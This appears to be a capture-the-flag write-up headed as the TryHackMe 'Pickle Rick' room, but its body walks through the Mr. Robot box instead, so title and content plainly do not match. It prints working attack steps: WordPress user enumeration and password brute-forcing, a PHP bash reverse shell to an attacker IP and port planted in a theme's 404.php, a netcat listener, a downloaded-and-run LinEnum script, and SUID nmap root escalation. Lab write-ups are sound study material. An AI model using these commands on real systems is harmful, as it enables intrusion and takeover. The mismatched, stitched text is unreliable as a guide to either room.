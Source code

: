 ```yaml
---
title: Pickle Rick
categories: [TryHackMe]
tags: [Linux, easy]
image: images/Rick/Rick.png
---
```


**Pickle Rick** is an **easy** rated room on **TryHackMe** inspired by Rick and morty series. This is probably one of the easiest TryHackMe Boxes but then again , it’s great for practice.

# 1. Initial Reconnaissance and Scanning:

The first phase of any Capture The Flag (CTF) challenge is information gathering. Our goal here is to identify what services are running on the target machine and which ports are open. This intelligence sets the stage for future attacks.

### Nmap Scan:

Use Nmap to scan the target's open ports, services, and versions:

```console
nmap -sC -sV -oN nmap_scan <Target_IP>

```

●`-sC:` Enables default scripts, often revealing common vulnerabilities.  
●`-sV:` Detects service/version information, such as Apache, OpenSSH, etc.

### Understanding the Results:

Look for ports such as:

●**Port 80** (HTTP): Likely indicates a website is running.  
●**Port 443** (HTTPS): Secure HTTP services.  
●**Port 22** (SSH): Useful later for remote access.

we do a little nmap scan on the given IP address and discover
image: images/Rick/Rick.png

# 2. Web Enumeration :

With **port 80 (HTTP)** open, it's time to explore the website for hidden vulnerabilities or clues. This includes both manual inspection and automated enumeration of directories.

### Inspect the Website:

Visit the site at `http://<Target_IP>`. The website is themed around the **Mr. Robot** show, but stay focused on finding clues. Check the **page source** for hidden comments or links that developers might have left behind.

**robots.txt File:**
The `robots.txt` file can contain sensitive or hidden information that isn't meant for users. Access it with:

```console
curl http://<Target_IP>/robots.txt
```

You'll find two key pieces of information:

**●fsocity.dic:** A wordlist for brute-forcing passwords.  
**●key-1-of-3.txt:** The first flag. Retrieve it from `http://<Target_IP>/key-1-of-3.txt`.
Download both files:

```console
wget http://<Target_IP>/fsocity.dic
wget http://<Target_IP>/key-1-of-3.txt
```

The **fsocity.dic** file is a wordlist we will use later for brute-forcing the login credentials.

# 3. Directory Brute-Forcing

Next, we perform directory brute-forcing to uncover hidden pages or admin areas. This step can lead to further insights about the target's web structure.

### Gobuster or Dirb Scan:

```console
gobuster dir -u http://<Target_IP> -w /usr/share/wordlists/dirb/common.txt
```

●`u:` The target URL.
●`w:` The wordlist (in this case, common.txt).
●`t:` Number of threads to speed up the process.
The scan will reveal directories like `/wp-admin` and `/wp-login.php`, indicating the presence of **WordPress** on the machine a crucial discovery, as WordPress sites are often vulnerable.

# 4. WordPress Enumeration

Knowing that the target is running WordPress, the next step is to enumerate the WordPress installation to identify users and vulnerabilities.

### WPScan:

WPScan is a great tool for WordPress enumeration. Let's start by finding users:

```console
wpscan --url http://<Target_IP> --enumerate u
```

This scan will likely reveal a username like **Elliot**, named after the main character from Mr. Robot. Now you have a target for a brute-force attack.

# 5. Brute-Forcing WordPress Login

With the username **Elliot** identified, the next step is to brute-force the password using the **fsocity.dic** wordlist.

### WPScan Brute-Force:

```console
wpscan --url http://<Target_IP> --wordlist fsocity.dic --username Elliot
```

WPScan will attempt to log in with each password in the wordlist until it succeeds, eventually cracking the password.

# 6. Gaining Access Through WordPress

Once you’ve logged in as **Elliot** via `http://<Target_IP>/wp-login.php`, you have control over the WordPress site. Your next goal is to upload a **reverse shell** and gain access to the underlying system.

### Uploading a Reverse Shell:

Go to **Appearance > Theme Editor**, and select the `404.php` file. Replace its content with **Pentestmonkey’s PHP reverse shell**: [link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```console
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<Your_IP>/<Your_Port> 0>&1'");
?>
```

Insert your local machine's IP address and the port you want to listen on.

# Netcat Listener:

On your machine, set up a listener with **Netcat**:

```console
nc -lvnp <Your_Port>
```

# Trigger the Reverse Shell:

Visit the following URL to execute the reverse shell:

```console
http://<Target_IP>/wp-content/themes/<theme>/404.php
```

This will establish a connection between the target and your local machine.

# 7. Privilege Escalation

Now that you have a shell, you need to escalate your privileges from a low-level user to **root**.

### System Enumeration:

Check system information and identify potential privilege escalation vectors:

```console
whoami        # Check current user
hostname      # System name
uname -a      # Kernel version
```

### Using LinEnum or LinPEAS:

You can automate the privilege escalation enumeration process using tools like **LinEnum** or **LinPEAS**:

```console
wget http://<URL_to_LinEnum>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

### Escalating with SUID Binaries:

Check for binaries with the SUID bit set (which run as root even if you're a regular user):

```console
find / -perm -u=s -type f 2>/dev/null
```

If **nmap** has the SUID bit set, you can use its interactive mode to escalate privileges:

```console
nmap --interactive
!sh
```

This will drop you into a root shell.

# 8. Capture the Flags

Now that you have root access, it's time to capture all three flags.

●**First Flag**: Found in the `robots.txt` file (`key-1-of-3.txt`).
●**Second Flag**: Search the home directories to find the second flag:

```console
cat /home/<username>/key-2-of-3.txt
```

●**Root Flag**: The final flag is usually located in the root directory:

```console
cat /root/key-3-of-3.txt
```

# Final Thoughts

With root access and all flags captured, you have successfully completed the **Mr. Robot** CTF challenge on TryHackMe or Vulnhub.
